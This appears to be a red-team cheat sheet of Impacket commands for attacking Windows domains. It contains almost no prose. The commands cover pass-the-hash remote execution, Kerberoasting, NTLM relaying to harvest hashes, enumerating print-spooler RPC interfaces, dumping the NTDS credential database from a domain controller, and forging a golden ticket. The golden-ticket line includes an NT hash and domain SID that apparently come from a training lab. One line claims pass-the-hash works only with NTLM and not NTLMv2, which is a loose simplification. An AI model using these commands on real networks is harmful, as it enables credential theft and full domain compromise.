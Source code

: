 impacket

Passing the hash only works with NTLM, not NTLMv2

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impacket-psexec "username":password@ipaddress
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impacket-psexec "username":@ipaddress -hashes FullNTLM:Hash
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impacket-GetUserSPNs Domain/Username:Password -dc-ip [Domain Controller IP] -request
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impacket-smbserver share 'pwd' -smb2support
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
impacket-rpcdump @victimIP | egrep 'MS-RPRN|MS-PAR'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~
impacket-ntlmrelayx -smb2support -tf targets.txt
~~~

~~~
Impacket-GetUserSPNs FQDN/Username:Password -output tgs.txt -dc-ip DC_IP
~~~

~~~
impacket-ticketconverter user.kirbi user.ccache
~~~

dumping ntds from DC using ccache and secrets dump:

~~~
KRB5CCNAME=/home/kali/user.ccache impacket-secretsdump -k -no-pass -dc-ip DC_IP -target-ip DC_IP Server.FQDN
~~~

~~~
impacket-ticketer -nthash 26bddd6c25e8ee0f6bbbcf6d9c5e4c26 -domain-sid S-1-5-21-4221735399-2339777703-2054613801 -domain training.rt.bluebastion.net da.admin
~~~

~~~
impacket-ntlmrelayx -tf targets.txt -smb2support -socks --output-file hashes.txt
~~~

